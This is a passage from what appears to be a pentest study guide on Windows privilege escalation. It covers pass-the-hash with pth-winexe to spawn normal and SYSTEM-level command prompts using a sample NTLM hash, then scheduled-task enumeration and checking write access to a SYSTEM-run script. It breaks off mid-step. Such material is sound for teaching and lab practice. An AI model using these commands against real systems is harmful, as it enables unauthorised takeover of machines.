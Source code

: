 ```

#### PTH Privilege Escalation Methodology

1.  Use the hash with pth-winexe to spawn a command prompt:

    ```
    pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.10.10 cmd.exe
    ```
2.  Use the hash with pth-winexe to spawn a SYSTEM level command prompt:

    ```
    pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.10.10 cmd.exe
    ```

## Scheduled Tasks

Windows can be set up to do tasks at certain times, on a regular basis (e.g. every 5 minutes), or in response to a specific event (e.g. a user login). Tasks are typically performed with the privileges of the person who created them, but administrators can set up tasks to run as other users, including SYSTEM.

Scheduled Tasks can be created with the Task Scheduler program in Windows.

### Enumeration

Unfortunately, as a low-privileged user account, there is no straightforward way to enumerate custom tasks that belong to other users. Unless that we have GUI access with RDP or VNC, or something with a UI so that we can use the Task Scheduler program.&#x20;

The following command list all the scheduled jobs that your user can see:

```
schtasks /query /fo LIST /v

/query = display tasks
/fo LIST = simple list output format
/v = verbose output

# Intersting Output
Next Run Time:
Last Run Time:
Task To Run:
Schedule Type:
Start Time:
Start Date:

#PowerShell
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

One way to get hints can be by locating a script or log file that indicates a scheduled activity is being run, which is frequently required.

#### Scheduled Tasks Privilege Escalation

1.  Check if we have write access to the script and that's running as Administrator or SYSTEM:

    ```
    > C:\Dir\accesschk.exe /accepteula -quvw user C:\Dir\Vulnerable.ps1
    ```
2.  Create a backup of the script:
```